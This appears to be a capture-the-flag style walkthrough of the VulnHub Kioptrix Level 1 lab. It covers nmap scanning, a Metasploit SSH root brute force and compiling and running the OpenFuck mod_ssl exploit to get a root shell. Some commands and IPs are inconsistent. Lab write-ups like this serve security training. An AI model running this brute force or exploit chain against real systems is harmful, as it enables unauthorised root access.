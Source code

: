 # Kioptix-level-1-walk-through


### download the machine from https://www.vulnhub.com/entry/kioptrix-level-1-1,22/ 

then launch using VMware 

no credintial are provided 


Notes :
----

make sure your system is upgraded           
sudo apt update && sudo apt upgrade                 
sudo apt install exploitdb 

make sure your main system and the target on the same network

scan the target using nmap 
--
Nmap -sn 192.168.1.*

got the kioptrix vm ip at 

Nmap -sC -sV 192.168.1.104

found some open ports ( -22-80-111,139-445-1009)
  
now lets walkthrough each port and see what we can do (separately and combined):
----


 
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
----

 
 
 nmap -sV -sC 192.168.1.104 -p 22 --script vuln get some result 
 
 CVE-2011-1013 CVSS 7.2
---
 allows local users to cause a denial of service (system crash)

 CVE-2010-4478 CVSS 7.5
---
 which allows remote attackers to bypass the need for knowledge of the shared secret, and successfully authenticate
 
  unfortunately there are no proof of concept or working exploit available online also there are no Metasploit module for them
 
 so I've moved to another approached " brute forcing the service for root credentials " using metaspolit
 ---
 msf > use auxiliary/scanner/ssh/ssh_login
 
msf auxiliary(ssh_login) > set RHOSTS 10.0.0.27
 
RHOSTS => 192.168.1.3
 
msf auxiliary(ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
 
USERPASS_FILE => /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
 

 msf auxiliary(ssh_login) > run
 
 no promising results , 
  

 
 
 53/tcp   open  domain      ISC BIND 9.4.2
----
 using nmap engine found CVE-2008-0122 CSSV 10.0 vulneraries that causes Denial Of Service Execute Code Memory corruption

 
 There are not any Metasploit modules related to this CVE or any working online exploit
 
 
 
 111/tcp  open  rpcbind     
  ----
  
 sudo showmount -e 192.168.1.104
  
 no files are mounted
  
 139/tcp  open  netbios-ssn Samba smbd 
 ---
 couldn't vefiy any exploit for this exact service
  
  443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
---

search exploit-db for  Apache openssl

This Exploit (https://www.exploit-db.com/exploits/764/) is outdated. Here you can take updated

Download OpenFuck.c

git clone https://github.com/heltonWernik/OpenFuck.git

Install ssl-dev library

apt-get install libssl-dev

It's Compile Time

gcc -o OpenFuck OpenFuck.c -lcrypto

Running the Exploit

./OpenFuck

 ./OpenFuck -h |grep 1.3.20
 

./OpenFuck 0x6a 192.168.1.104 443 -c 40
 
 id 
 
root
Thanks for taking some time reading this i hope it was useful please don't hesitate correcting me any mistake for giving me advise
 ----
